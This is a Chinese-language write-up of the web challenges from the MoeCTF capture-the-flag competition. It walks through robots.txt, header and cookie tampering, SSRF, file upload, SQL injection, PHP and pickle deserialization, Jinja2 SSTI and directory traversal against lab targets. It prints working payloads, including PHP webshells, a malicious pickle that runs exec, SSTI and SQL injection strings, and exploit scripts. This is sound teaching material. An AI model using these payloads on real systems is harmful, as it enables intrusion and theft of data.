

## web入门指北

phpstudy傻瓜式安装即可，鼓励大家自行搭建，然后附件源码放网站根目录（phpstudy默认一般是WWW），注意删除根目录下的index.php, 覆盖index.html, 因为默认配置访问根目录（GET /）index.php的优先级比index.html高，浏览器输入正确url访问即可回显flag

## 弗拉格之地的入口

本题考察的是关于 robots.txt 协议的内容。根据题目信息：“爬虫”，联想到爬虫遵循的协议 —— robots.txt ，直接访问 `/robots.txt` 即可。

## 弗拉格之地的挑战

本题考察关于 web 安全新手村的一些基本知识，灵感来源于攻防世界的新手题目 —— 引导模式前 12 题。本题将题目拆分为 7 个部分，需要分别完成。

### flag1

在此之前，我们先需要来到 `flag1` 所在的网页。页面提示：`/flag1ab.html`，我们需要把这个玩意复制在浏览器上方的地址栏中进行跳转，然后正式开始第一题。

第一题，题目提示网页一片空白，但是其实还有东西。根据有关知识点：**浏览器对 html 的渲染**， 我们需要使用**右键检查/F12/右上角设置开发人员工具/右键查看源代码**，然后查看源代码，获得第二关的钥匙和 `flag1`，记录下来备用，并且直接访问 `flag2` 的关卡。

### flag2

第二题，题目提示 "http"，我们打开之前的 devtools，也就是 `f12` 打开的面板，换成 "网络” 选项卡，找到最上面那个和当前网页文件同名的一项，即 `flag2hh.php`，可以看到 "响应标头" 一项中有 `Flag` 和 `Nextpage` 两个头。记录并进入下一关。

此题知识点为 http 请求头，也就是说通过 http 传输的内容不只是 html 之类的数据，也有放在 header 里面的头信息。

### flag3

第三题，直接完成题目所需的要求。需要传输 get/post 请求，我们很难直接在浏览器上完成，可以使用 burpsuite 抓包，也可以直接下载 Hackbar 浏览器插件，然后直接在插件中完成。

第三问要求进行 `admin` 的身份验证，很多人猜到了是 cookie 验证，但是并不知道需要的 key。这就涉及到 cookie 的一部分原理了。首先服务器要先发来一个 `Set-cookie` 的头，然后你的浏览器就会记录下这个 cookie。那么你想要篡改 cookie 内容，需要的就是观察 `Set-cookie` 头，然后根据它的格式进行修改。所以通过 `flag2` 的知识点，我们查看 `Set-cookie` 头的内容，是 `verify=user` ，所以我们需要修改 `verify` 的值为 `admin`，然后发送请求即可。（或者在“应用程序”选项卡之中把 `verify` 修改为 `admin`，然后刷新即可， 记得在 hackbar 中把 cookie 一项关掉）。

### flag4

直接点击链接进入下一关，题目询问你是否从 `http://localhost:8080/flag3cad.php?a=1` 过来的。这个链接很像真的，但是确实是伪造的，只要你的端口不是 8080, ip 是 wsrx 的默认 `127.0.0.1`，或者你用的参数不是 `a=1`， 那就很容易露馅。不过无所谓，这题的本质其实还是 `flag3`的的知识点。网页是如何知道你是从哪个网站点击链接过来的，考的就是 `Referer` 的头。所以我们只需要把 `Referer` 头修改成要求的样子就可以正式进入第四关。如果想要更多这方面的考点，可以参考同比赛的 `ez_http` 这道题。

正式进入第四关。要求按照提示按下按钮，按钮数字为 1-8, 但是题目要求按下 9。所以我们可以打开 devtools 中的 "元素" 选项卡，或者通过右键检查元素，锁定到这一排按钮上，把一个按钮的 `id` 属性修改为 `9`，然后点击即可。

```html
<button onclick="getID(this)" id="9">8</button>
```

以上为例，我们将按钮 8 的 `id` 修改为 `9`，然后按下按钮 8 即可。

最后，题目提示结果通过 `console.log()` 输出，这是 `javascript` 的命令，我们需要通过 "控制台" 标签页查看输出结果。

### flag5

第五题，要求输入 "I want flag"，但是按下按钮后，会不允许你发送。这是前端 javascript 脚本在作祟。我们可以稍微修改一下内容，比如 `I want flag1` ，就可以发送了，虽然结果不对。然后我们就可以使用抓包工具进行修改一下就行。比如 burpsuite, 或者 Hackbar 直接 load 就可以了。

### flag6

这题是 php 的代码审计，要求 get/post 两个方法各提交一个 `moe` 参数，其中对 get 参数的值进行判定，先是要求不能匹配到 `flag` ， 但是有要求必须要有 `flag` 。注意到通过的过滤有一个 `/flag/i` ，也就是说不要求大小写。所以我们直接这么传：

```
GET: ?moe=flAg
POST:
moe=1
```

### flag7

最后，题目提示 `eval($_POST['what']);`，这是典型的 php 一句话木马。我们使用蚁剑连接就可以，但是我们也可以直接获取 flag:

```
POST:
what=system('cat /flag7');
```

最后，我们也就获得了所有的 flag, 拼接在一起，即：

```
bW9lY3Rme0FmdEVyX3RoMXNfdFVUMHJfSV90aDFrZV9VX2trbm93X1dlQn0=
```

最后通过 base64 解码即可。如果不知道的话，根目录下还有提示：

```
现在把你的 7 个 flag 片段拼在一起，你就应该知道怎么样获得最终 flag 了。 如果你还不知道，想一想这些编码，一堆大小写和数字，最后还有一个等号哦。。。
```

这是一个很明显的 base64 编码，之后遇到应该可以认出来。

## ez_http

按要求做，做下一步时不要丢弃上一步的操作



## ProveYourLove

前端阻止重复提交，发包绕过, exp：

```python
#exp.py
import requests

url = 'http://127.0.0.1:53785/questionnaire'

data = {
    'nickname': 'xiaotian',
    'target': '333',
    'message': 'eeeeeeeeee',
    'user_gender': 'male',
    'target_gender': 'male',
    'anonymous': 'false'
}

for i in range(300):
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

## ImageCloud前置

经典的ssrf `payload: file:///etc/passwd` 即可获得flag

## 垫刀之路01: MoeCTF？启动！

这题开始是一共 7 题的垫刀之路系列，考点单一，重点是让大家学到东西。

第一题题目提示是远程命令执行，我们在上面运行的所有东西都是直接直接作为 linux 命令执行后返回结果。所以我们可以直接使用 `cat /flag` 命令，得到提示，flag 在环境变量里。我们使用以下命令都可以：

```bash
env
printenv
echo $FLAG
```

## 垫刀之路02: 普通的文件上传

这题是文件上传，暂时没有过滤，所以我们构建一个 php 文件，比如 `evil.php` ，内容为：

```php
<?php eval($_POST[1]);
```

然后根据题目提示，访问 `uploads/evil.php` ，然后提交 post 参数 `1=system('env');` 即可。

## 垫刀之路03: 这是一个图床

这题和上题类似，区别是前端要求我们后缀名为 jpg/png/gif，后端限制 MIME 格式为 `image/jpeg` 之类的。我们直接上传 jpg 文件，那么最终服务器是不会解析 jpg 文件的。所以我们先把 `evil.php` 改名为 `evil.jpg`，然后上传，在过程中，我们使用 burpsuite 拦截，然后把文件名改为 `evil.php`，然后发送即可。

## 垫刀之路04: 一个文件浏览器

这题看到的是一堆文件和文件夹。题目提示说注意看 readme 文件。我们访问 `src/readme.md` ，可以看到下面有一些英文注释，提醒这个文件夹是没用的。其实整个显示的文件夹都是没用的，里面是我随便塞的一个文件。ctf 题目通常和题目具体提供的服务没太大关系，反而需要关注到提供服务过程中暴露出的漏洞。比如说这一题，url 中出现了参数 `?path=src`, 那么这题可能和**目录穿越漏洞**有关。我们直接 `?path=../../../../../` 看见根目录文件即可。

最后顺着题目的线索，我们访问 `/tmp/flag` 即可。这个位置有点偏，但我觉得无伤大雅。毕竟已经可视化文件目录里，找一下也无所谓吧，就当时给其他题往这里藏 flag 的心理准备吧。

## 垫刀之路05: 登陆网站

这题是一个登陆页面。题目要求我们只要登陆成功即可。题目还提示我们登陆的账号名，以及密码不好破译。但是这样表述可能有点问题，有的人可能因此还是去爆破了。但是只是为了登陆，我们要想到**sql注入**。

具体过程不展示，总之就是单引号的万能密码：

```
1' or '1'='1
```

把上面的填在密码那里就行。

## 垫刀之路06: pop base mini moe

这题是 php 反序列化漏洞的基础题。观察到 classB 有一个 `__invoke` 函数。这是一个 php 魔术方法，当对象被当作函数调用时自动触发。所以我们可以把一个对象 B 当作函数调用。这条链的起点就是 `__destruct` 函数。

想要把一个对象赋值给一个对象属性，而且还是私有的属性，我们不能直接赋值，也不能在外面赋值，但是我们可以使用 `__construct` 构造函数来赋值。下面就是 exp：

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a;

    public function __construct() {
        $this->a = new B();


    }
}

class B {
    private $b = "system";

}

$a = new A();
echo urlencode(serialize($a));
```

最后使用 `urlencode` 编码，就是因为序列化之后，private 属性的内容会有不可见字符。我们直接把他编码就行。

另外由于考虑不周，其实 B 类内部的考点可以直接运用于 A 内部，也就是说直接把 "system" 写在 A 里面，绕过了 B 类：

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a = "system";
}
$a = new A();
echo urlencode(serialize($a));
```

## 垫刀之路07: 泄漏的密码


这题提示说，泄漏了 flask 的 调试 PIN 码，那么应该如何使用呢？查阅资料，可知 PIN 码可进入控制台执行。但是网上资料显示都是通过报错进入。这里不好进。其实如果扫描或者做过类似的题目可以知道，我们可以访问 `/console` 直接进入控制台。（这里需要注意的是，通过此方法进入的控制台似乎只被允许本地访问。好在我们的 ctf 是基于连接器的，默认就是 localhost 访问。）

进入控制台，输入 PIN 码，然后就相当于是 pyjail 类的。不过要简单很多，因为没有限制，所以我们直接分步导入 `os` 模块并执行系统命令。

```python
import os
os.popen('cat flag').read()
```

这里有几个注意点，如果使用 `os.system()` 函数，可能会没有回显。这应该是控制台的特性，我们换个方案就好了。

第二点就是如果你访问的是 `/flag` ，就会提醒 “远在天边，近在眼前”， 意思就是，你不要跑到根目录找 flag 了，就在工作目录下面。用意和之前一样，既然已经无成本找文件运行命令了，那还是希望你多找找，多认识几个可能藏 flag 的地方。

## 静态网页

这题原型是[我自己的博客](https://www.sxrhhh.top)，把所有链接都删了所以只有一个首页。题目提示这是一个静态网页，一般不会有什么可攻打的地方，所以思考相关考点，也就是查看源代码之类的。所以我们查看源代码，在底部发现一行中文注释：`好想知道她是怎么换衣服的啊啊啊`，在 ctf 题目中莫名出现中文注释比较突兀，我觉得这很明显是个提示，应该往右下角 live2d 小人换衣服这个细节去考虑。

另外还有一点，就是如果你发现右下角小人可能有点突兀，如果你闲着没事干，和小人玩起来了，可能会发现他会说：`你再点我我也不会告诉你我的衣服是向后端请求的！`，这句话也有点突兀，没注意可能就略过去了。但是如果注意到了，细看就会发现端倪：为什么静态网页会有后端。

两个点，都像你提示换衣服会向后端请求。我们打开 devtools，查看 "网络" 选项卡，点击小人的换衣服，我们可以看见多出来几个请求。我们点击 `get` 这个请求，双击查看内容，是一个 json 文件。我们在底部可以看见所谓的 `flag` 。内容为：`Please turn to final1l1l_challenge.php`

所以我们访问 `/final1l1l_challenge.php` 即可。同样也是 php 代码审计，要求传入一个 `a` 和 `b` 参数，要求 a 和 b 都不能是纯数字，并且 a 要求 `a == 0` 。这个涉及到 php 的弱类型比较。在**php8以下**，开头为0的或者开头不为数字的字符串可以和 0 弱比较相等。所以我们传入 `a=0a` 即可绕过前半部分。

后半部分要求是 `md5($a) == $b[$a]`，有的师傅可能认为这是 md5 绕过，并且说绕不过去。其实只要静下来定睛一看就能看出来，这个表达式其实并没有对 `a` 参数做出任何限制，全是对 `b` 的限制。所以细看就能知道，我们要求的是 `b[a]` 就是 a 的 md5 值。至于如何赋值，请看下文：

```
GET: ?a=0a
POST:
b[0a]=e99bb33727d338314912e86fbdec87af
```

可以看到，想要传数组，直接把 `a` 的值丢进中括号就行了。`b` 的值就是 `0a` 的 md5 值。

## 电院_Backend

后台常用robots协议防止爬虫爬取，访问robots.txt发现存在/admin/, 

```
User-agent: *
Disallow: /admin/
```

访问/admin/发现后台，附件给了login.php源码

```php
<?php
error_reporting(0);
session_start();

if($_POST){
    $verify_code = $_POST['verify_code'];

    // 验证验证码
    if (empty($verify_code) || $verify_code !== $_SESSION['captcha_code']) {
        echo json_encode(array('status' => 0,'info' => '验证码错误啦，再输入吧'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $email = $_POST['email'];
    if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);

    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}
?>
```

存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## pop moe

预期解：

更多详细[pop链构造]serialize/deserialize介绍请见cafebabe的博客 http://blog.steesha.cn/archives/138/

POC

```PHP
<?php
highlight_file(__FILE__);

class class000 {
    private $payl0ad;
    protected $what;

    public function __construct()
    {
        $this->payl0ad = 1;
        $this->what = new class001;
    }
}

class class001 {
    public $payl0ad;
    public $a;
    
    public function __construct()
    {
        $this->a = new class002;
        $this->payl0ad = 'dangerous';
    }
}

class class002 {
    private $sec;
    
    public function __construct()
    {
        $this->sec = new class003;
    }
}

class class003 {
    public $mystr;
    
    public function __construct()
    {
        $this->mystr = "system('env');";
    }
}

echo urlencode(@serialize(new class000));
```

非预期解：

```PHP
<?php
class class000 {
    private $payl0ad = 1;
    protected $what="phpinfo";
}
echo urlencode(serialize(new class000()));
```

查看环境变量即可

## 勇闯铜人阵

这题没有什么可以多说的，目标就是把题目给的数字翻译成中文。但是由于时间限制 3 秒，我觉得一般人的手速加网速不太好做到手打全部搞定，所以一般需要一个脚本。这里给出我自己的 python 脚本：

```python
import re
from pydash import trim
import requests
from bs4 import BeautifulSoup
url1 = "http://localhost:40763/restart"
url2 = "http://localhost:40763/"

sess = requests.session()
direct_list = ["北方", "东北方", "东方", "东南方", "南方", "西南方", "西方", "西北方"]

def parse_status(html):
    bs = BeautifulSoup(html, "html.parser")
    coin = trim(bs.find('h1', id='status').text)
    # 一枚硬币
    if len(coin) == 1:
        return direct_list[int(coin) - 1]
    # 两枚硬币
    else:
        nums = re.findall(r'\d', coin)
        return direct_list[int(nums[0]) - 1] + '一个，' + direct_list[int(nums[1]) - 1] + '一个'
        
if __name__ == "__main__":
    # restart
    sess.get(url=url1)
    # start
    body = {
        "player": "sxrhhh",
        "direct": "弟子明白",
    }
    r = sess.post(url=url2, data=body)
    # 循环
    for i in range(0, 5):
        payload = parse_status(r.text)
        body = {
            "player": "sxrhhh",
            "direct": payload,
        }
        r = sess.post(url=url2, data=body)
        # 打印结果
        bs = BeautifulSoup(r.text, "html.parser")
        status = trim(bs.find('h1', id='status').text)
        print(status)
```

## Re: 从零开始的 XDU 教书生活

本质上就是重复发送 HTTP 请求，考察脚本编写能力。

登录账号这个地方的 aes 加密是可以取消的，只要参数 `t` 不要传 `"true"` 即可。

```Python
import requests
from Crypto.Cipher import AES
import base64

# 请替换为您的靶机
BASE_URL = "http://127.0.0.1:8888"

def encrypt_by_aes(data: str, key: str, iv: str) -> str:
    key_bytes = key.encode("utf-8")
    iv_bytes = iv.encode("utf-8")
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
    data_bytes = data.encode("utf-8")
    pad = 16 - len(data_bytes) % 16
    data_bytes = data_bytes + bytes([pad] * pad)
    encrypted_bytes = cipher.encrypt(data_bytes)
    encrypted = base64.b64encode(encrypted_bytes).decode("utf-8")
    return encrypted

def login(phone: str, password: str):
    url = f"{BASE_URL}/fanyalogin"
    key = "u2oh6Vu^HWe4_AES"
    iv = "u2oh6Vu^HWe4_AES"

    encrypted_phone = encrypt_by_aes(phone, key, iv)
    encrypted_password = encrypt_by_aes(password, key, iv)

    data = {
        "uname": encrypted_phone,
        "password": encrypted_password,
        "t": "true"
    }
    
    session = requests.Session()
    response = session.post(url, data=data)
    response_data = response.json()
    
    if response_data.get("status"):
        return session
    else:
        print("Login failed:", response_data.get("msg2"))
        return None

def get_unsigned_student_accounts(session):
    url = f"{BASE_URL}/widget/sign/pcTeaSignController/showSignInfo1"
    response = session.get(url)
    response_data = response.json()
    students = response_data["data"]["changeUnSignList"]
    return students

def get_sign_code(session):
    url = f"{BASE_URL}/v2/apis/sign/refreshQRCode"
    response = session.get(url)
    response_data = response.json()
    if response_data.get("result") == 1:
        return response_data["data"]["signCode"], response_data["data"]["enc"]
    else:
        print("Failed to get sign code:", response_data.get("errorMsg"))
        return None, None

def sign_in(session, sign_code: str, enc: str):
    url = f"{BASE_URL}/widget/sign/e"
    params = {
        "id": str(active_id),
        "c": sign_code,
        "enc": enc
    }
    response = session.get(url, params=params)
    return response.text

def end_active(session):
    url = f"{BASE_URL}/widget/active/endActive"
    response = session.get(url)
    response_data = response.json()
    if response_data.get("result") == 1:
        return response_data.get("errorMsg")
    else:
        print("Failed to end activity:", response_data.get("errorMsg"))
        return None

if __name__ == "__main__":
    teacher_phone = "10000"
    teacher_password = "10000"
    active_id = 4000000000000

    teacher_session = login(teacher_phone, teacher_password)
    if teacher_session:
        students = get_unsigned_student_accounts(teacher_session)
        sign_code, enc = get_sign_code(teacher_session)
        
        for student in students:
            student_session = login(str(student["uid"]), str(student["uid"]))
            if student_session and sign_code and enc:
                sign_in_response = sign_in(student_session, sign_code, enc)
                print(f"Student {student["uid"]} sign in response:", sign_in_response)
        
        flag = end_active(teacher_session)
        print("Flag:", flag)
```

示例 Flag（本题为动态 Flag）: 

```Plain
moectf{u_ar3_4_g00d_t34ch3r_l0v3d_by_3v3ry0n3}
```

### 非预期解

因为 `update_sign_status()` 函数没有做好参数校验，导致可以直接从教师账号把所有人的账号都改成 "非教师代签的已签" 状态。

因此可以直接从教师账号遍历所有学生然后更新他们的签到状态。

此为出题人疏忽所致，在此深表歉意。

（不过仍然需要写脚本来实现，出题目的还是达到了的，只是流程被简化了很多）

## who's blog?

这题要求我们传入自己的 id ，然后博客中就会出现我们的 id 内容。因为网页输出内容可控，所以有的人可能会想到 xss 漏洞。但是 xss 漏洞的可获得权限很低，一般没有什么用。这题其实是 Flask + Jinja2 的 SSTI 模板注入。具体细节就不说了，网上可以找到，这里直接给出 payload:

```
GET: ?id={{"".__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('echo $FLAG').read()}}
```

这次的 flag 还是放在环境变量里，好多人又忘了。。。。

这个 137 其实也是可以爆破出来的，当然我是直接打印所有 `__subclasses__` 专挑 `os_wrapper` 数他是第几。

## ImageCloud

随便传个文件，点击已上传文件查看，发现url中有`/image?url=http://localhost:5000/static/{filename}`

题目给了源码文件，5000端口映射在外网，但是app2.py运行在一个随机端口（5001-6000）需要借助ssrf爆破内网app2的端口


可以通过暴露出来的服务打ssrf爆破app2的运行端口，从而借助ssrf窃取内网app2的图片


## PetStore

注意到 `import_pet()` 方法会将传入的 Base64 解码并执行 Pickle 反序列化，我们只要生成一个恶意类对象，对其 Pickle 序列化后进行 Base64 编码，把得到的结果传入 `import_pet()` 方法就可以了。

这里介绍下 Python 的 `__reduce__` 方法。

当一个对象被序列化时，如果它存在 `__reduce__` 方法，`pickle` 模块会调用这个方法来获取对象的序列化信息。

`__reduce__` 方法应返回一个元组，这个元组包含两个元素：

1. **一个可调用对象**：通常是一个构造器或一个函数。这个对象在反序列化时被调用，用于创建新的对象实例。
2. **一个元组**：包含传递给可调用对象的参数。当反序列化时，这个元组中的参数会传递给第一个元素（可调用对象）。

当反序列化时，`pickle` 模块会按照以下步骤操作：

1. 调用第一个元素（可调用对象）并传入第二个元素（元组）的解包结果作为参数。
2. 使用可调用对象的返回值作为反序列化的结果。

通过这种方式，`__reduce__` 方法允许你完全控制对象的序列化和反序列化过程。

从 Dockerfile 中可以知道，题目环境中的 Python 版本是 3.12.4，且 flag 存储在环境变量 FLAG 中。

因此我们用 Python 3.12.4 生成序列化数据：

```Python
import base64
import pickle

class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))

if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))
```

得到

```Plain
gASVUwAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIw3aW1wb3J0IG9zOyBzdG9yZS5jcmVhdGVfcGV0KG9zLmdldGVudignRkxBRycpLCAnZmxhZycpO5SFlFKULg==
```

这个被题目环境侧反序列化后就会执行

```Python
exec("import os; store.create_pet('flag', os.getenv('FLAG'));")
```

因此，将这个序列化数据传入 Import a Pet 后，再回到主页面，就能看到 Flag: 


示例 Flag（本题为动态 Flag）: 

```Plain
moectf{starrymeow's_flag_has_been_accepted_acacacac}
```

本题有非常多的解法，以上只是其中之一，例如在`/static/`中添加内容为flag的文件、时间盲注等，都是可以的，毕竟已经RCE了所以几乎什么都可以做到。因为容器不出网所以没法反弹shell，否则还可以有更多操作。

## smbms

这题是一道 java 的代码审计。因为我对 java 开发和 java 安全都是刚入门没几天，所以这道题出出来也只是套了个 java 的壳子，本质上还是一道简单的 sql 注入题目，只是增大了代码量。

首先我们打开环境，是一个登陆页面。可能有人会尝试 sql 注入进去，但是试了之后就可以放弃了。整个 java 项目都使用 `PrepareStatement` 预编译语句，所以一般情况下是不能注入的。所以登陆进去的考点就是爆破。拿到源代码查看里面的 sql 语句，也能看到提示 `weak_auth` ，表示这是一个弱密码。其中 admin 的密码是 `1234567` ，其他用户的密码是 `0000000` 。权限没有控制，随便选一个登陆就可以。

登陆进去之后，由于整个项目都是手搓的 jsp + servlet + jdbc, 所以没有现成的框架可以来利用，所以只能阅读代码。之前说过，我们使用的是预编译，所以我们不能哪里都能注入。但是我们还是可以找到一些端倪。sql 注入的核心就是字符串拼接，我们看到 `java/top/sxrhhh/dao/user/UserDaoImpl.java` 文件，看到 `getUserList` 方法，这个方法就是获取用户列表的，就是一个查表的函数。注意到这一行：

```java
if (!StringUtils.isNullOrEmpty(userName)) {
    sql.append(" and u.userName like '%").append(userName).append("%'");
}
```

之前说过，sql 注入最重要的就是拼接字符串。这里就直接把 `userName` 拼接到 sql 语句中，所以如果 `userName` 就可以作为注入点。

然后我们就找到网页上对应的查表点位，直接开始列数为 14, 注入列数为 3 的注入（这些数据可以试出来，也可以直接查看源代码）：

```
http://localhost:8080/smbms/jsp/user.do?method=query&queryName=李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251&queryUserRole=0&pageIndex=1 
```

总体的套路就是联合查询，如果采用注释后方 sql 语句的方式，可能不太奏效，这里我就使用直接闭合的方式。重点语句提取出来就是：

```
李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251
```

这个语句总体就能做到闭合前面也能闭合后面。`%25` 就是 `%` 本身。
